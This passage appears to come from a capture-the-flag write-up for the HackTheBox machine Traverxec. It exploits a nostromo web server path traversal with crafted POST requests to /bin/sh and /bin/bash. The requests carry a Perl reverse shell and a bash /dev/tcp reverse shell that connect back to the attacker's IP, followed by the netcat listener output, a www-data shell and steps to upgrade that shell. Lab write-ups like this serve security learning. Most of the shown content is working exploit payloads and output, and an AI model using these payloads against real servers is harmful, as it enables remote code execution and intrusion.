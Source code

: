 ```
```
to send the payload to `burp suite`. now set all requried option and fire and `set ForceExploit true`!
```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Length: 245
Content-Type: application/x-www-form-urlencoded
Content-Length: 245
Connection: close

echo
echo
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.43:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' 2>&1
```
The pay load was a pearl reverse shell executed using `/bin/sh`. let go classic way uing bash and bash payload!!
```
POST /.%0d./.%0d./.%0d./.%0d./bin/bash HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Length: 245
Content-Type: application/x-www-form-urlencoded
Content-Length: 245
Connection: close

echo
echo
bash -i >& /dev/tcp/10.10.14.43/6969 0>&1
```
and boom! it works!! ofc...
```
$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.165] 55872
bash: cannot set terminal process group (419): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ 
```
# user
```console
www-data@traverxec:/usr/bin$ whoami
whoami
www-data
www-data@traverxec:/usr/bin$ cd 
cd
bash: cd: HOME not set
www-data@traverxec:/usr/bin$ find / -name nostromo 2> /dev/null
find / -name nostromo 2> /dev/null
/var/nostromo
www-data@traverxec:/usr/bin$ cd /var/nostromo
www-data@traverxec:/var/nostromo$ python -c "import pty; pty.spawn('/bin/bash')"
<omo$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@traverxec:/var/nostromo$ ^Z
zsh: suspended  nc -nlvp 6969
                                                                                                
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg                                                                 148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 6969

```